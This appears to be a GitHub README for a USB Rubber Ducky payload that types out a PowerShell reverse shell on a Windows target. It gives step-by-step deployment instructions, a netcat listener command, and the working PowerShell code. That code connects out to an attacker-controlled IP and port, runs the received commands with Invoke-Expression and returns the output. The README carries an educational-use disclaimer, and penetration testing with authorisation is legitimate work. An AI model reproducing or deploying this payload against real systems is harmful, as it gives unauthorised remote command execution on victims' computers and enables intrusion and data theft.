 # Three Second Reverse Shell (Windows)

A reverse shell is an invaluable tool in penetration testing, allowing an attacker to remotely execute commands on a target system by having the target system initiate a connection back to the attacker's listening device. This project demonstrates how to create a quick and effective reverse shell using PowerShell, leveraging the capabilities of Nishang, a collection of penetration testing scripts and payloads written in PowerShell. The focus is on implementing a netcat-like reverse shell that calls back to an attacker's machine where netcat listens on a specified port.

## Disclaimer

The tools and scripts provided in this repository are made available for educational purposes only and are intended to be used for testing and protecting systems with the consent of the owners. The author does not take any responsibility for the misuse of these tools. It is the end user's responsibility to obey all applicable local, state, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this program. Under no circumstances should this tool be used for malicious purposes. The author of this tool advocates for the responsible and ethical use of security tools. Please use this tool responsibly and ethically, ensuring that you have proper authorization before engaging any system with the techniques demonstrated by this project.

## Features

This DuckyScript leverages PowerShell to initiate a reverse shell connection back to a listening attacker-controlled server on a specific port. The reverse shell enables the attacker to execute commands remotely on the Windows target system. The payload uses the Nishang PowerShell script for reverse shells. It's structured for use directly in a command line or script where the variables can be substituted dynamically.

## Prerequisites

- **Operating System**: Tested on Windows 10 x64, version 22H2, Kali Linux 2023.4
- **Payload Studio**: Tested with Payload Studio Pro version 1.3.1
- **DuckyScript Version**: DuckScript 3.0 Advanced
- **Hardware**: USB Rubber Ducky (2022)

## Usage

### **Step 1: Prepare the PowerShell Reverse Shell Script**

1. **Obtain the Script**: 
    - Nishang's scripts are designed for penetration testing and offer a wide range of functionalities, including reverse shells. Access the Nishang GitHub repository and locate the `Invoke-PowerShellTcpOneLine.ps1` script. The script is available at: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
2. **Modify the Script for Your Environment**:
    - Replace the hardcoded IP address `YOUR_IP` and port number `YOUR_PORT` within the script to match your attacking machine's IP and the listening port you intend to use for incomming connections.

### Step 2: **Convert the PowerShell Script to DuckyScript**

- **Encode the PowerShell Command**: Convert the PowerShell command into a format suitable for DuckyScript. The goal is to have the USB Rubber Ducky execute the modified Nishang script on the target computer. Ensure the entire PowerShell command is correctly formatted to run in a single line, as this will be typed out by the Rubber Ducky.

### Step 3: **Set Up the Netcat Listener**

1. **Prepare Your Attacker Machine (Kali Linux)**:
    - Open a terminal then start a netcat listener using the specified port with the command: `nc -lvnp YOUR_PORT`
        
        <aside>
        ⚠️ To check if a specific port is available for listening on Kali Linux run:
        `netstat -tuln | grep <port_number>`
        OR
        `ss -tuln | grep <port_number>`
        If there's no output, the port is not being used.
        
        </aside>
        
2. **Testing Port Accessibility**:
    - Ensure your firewall allows incoming connections on the port you've chosen.
    - Use `nc` (netcat) to listen on the port temporarily and then try to connect to it from another host. If the connection is successful, the port is open for inbound traffic.
    - The Windows equivalent of `nc` (Netcat) is often considered to be PowerShell's `Test-NetConnection` cmdlet for basic networking tasks.
        - On the server (Kali Linux), listen on a specific port: `nc -lvp <port number>`
        - On a client machine (Windows), try to connect to the port: `Test-NetConnection -ComputerName <hostname> -Port <portnumber>`

### **Step 4: Deploy the Payload**

- **Load and Execute on Target**: Load the DuckyScript payload onto your USB Rubber Ducky, insert it into the target system, and let it execute. The script will automatically open PowerShell, inject the reverse shell script, and initiate a connection back to your netcat listener.

### Step 5: **Interact with the Reverse Shell**

- **Command Execution**: Once the reverse shell connection is established, you can begin executing commands on the target system from your attacker machine via the netcat listener.

## How It Works

### DuckyScript Payload:

- Executes a PowerShell command that establishes a TCP connection to the attacker's listening server. It continuously reads commands from the attacker, executes them, and sends the results back.
- For this to work, you must have a listener set up on your attacker-controlled server. This can be done with a simple Netcat command: `nc -lp YOUR_PORT`, where `YOUR_PORT` is the port you've specified in the DuckyScript.

### PowerShell Reverse Shell Components:

**Establishing a Connection:**

- **TCPClient Object Creation**:
    
    `$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',YOUR_PORT);`
    
- Initiates a new TCP connection to the specified IP address and port number, creating a `TCPClient` object.

**Opening a Stream:**

- **Getting the Network Stream**: `$stream = $client.GetStream();`
- Retrieves the network data stream associated with the `TCPClient` object for sending and receiving data.

**Preparing to Receive Data:**

- **Byte Array Initialization**: `[byte[]]$bytes = 0..65535|%{0};`
- Creates a byte array (`$bytes`) to store data received from the network stream. The array size is set to 65536 bytes, accommodating the maximum size of TCP data that can be received in one go.

**Reading and Executing Commands:**

- **Command Execution Loop**:
    
    ```powershell
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
      $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
      $sendback = (iex $data 2>&1 | Out-String );
      $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
      $stream.Write($sendbyte,0,$sendbyte.Length);
      $stream.Flush();
    };
    ```
    
- **Reading Data**: Continuously reads data from the network stream into the `$bytes` array. The `Read` method returns the number of bytes read, which is stored in `$i`.
- **Command Execution**: Received bytes are converted to a string (`$data`), which is then executed as a PowerShell command using `Invoke-Expression (iex)`. The command output is captured and converted to a string.
- **Preparing Response**: Output string is concatenated with the current PowerShell path to simulate a shell environment, then converted back to bytes.
- **Sending Response**: The byte array is sent back to the attacker through the network stream, and the stream is flushed to ensure all data is sent immediately.

**Closing the Connection:**

- **Terminating the Connection**: `$client.Close();`
- Closes the TCP connection once the loop ends (e.g., when the connection is terminated by the attacker).

## Output Example

![DuckyScript Payload Results](/images/reverse_shell_results.png)

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License

This project is licensed under the GNU General Public (GPL) License - see the [LICENSE](LICENSE) file for details.
